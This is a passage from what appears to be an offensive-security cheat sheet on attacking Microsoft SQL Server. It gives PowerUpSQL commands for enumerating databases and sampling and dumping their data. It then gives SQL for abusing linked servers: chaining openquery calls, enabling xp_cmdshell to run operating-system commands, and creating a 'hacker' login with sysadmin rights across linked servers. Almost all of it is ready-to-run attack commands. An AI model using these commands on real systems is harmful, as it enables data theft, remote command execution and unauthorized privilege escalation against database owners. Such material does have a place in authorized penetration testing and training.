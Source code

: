 ```ps1
Get-SQLInstanceDomain | Get-SQLTable -DatabaseName <DBNameFromGet-SQLDatabaseCommand> -NoDefaults
Get Column Details from a Table
Get-SQLInstanceDomain | Get-SQLColumn -DatabaseName <DBName> -TableName <TableName>
```


### Gather 5 Entries from Each Column


```ps1
Get-SQLInstanceDomain | Get-SQLColumnSampleData -Keywords "<columnname1,columnname2,columnname3,columnname4,columnname5>" -Verbose -SampleSize 5
```

### Gather 5 Entries from a Specific Table


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query 'select TOP 5 * from <DatabaseName>.dbo.<TableName>'
```


### Dump common information from server to files

```ps1
Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv
```

## Linked Database

### Find Trusted Link

```sql
select * from master..sysservers
```

### Execute Query Through The Link

```sql
-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```
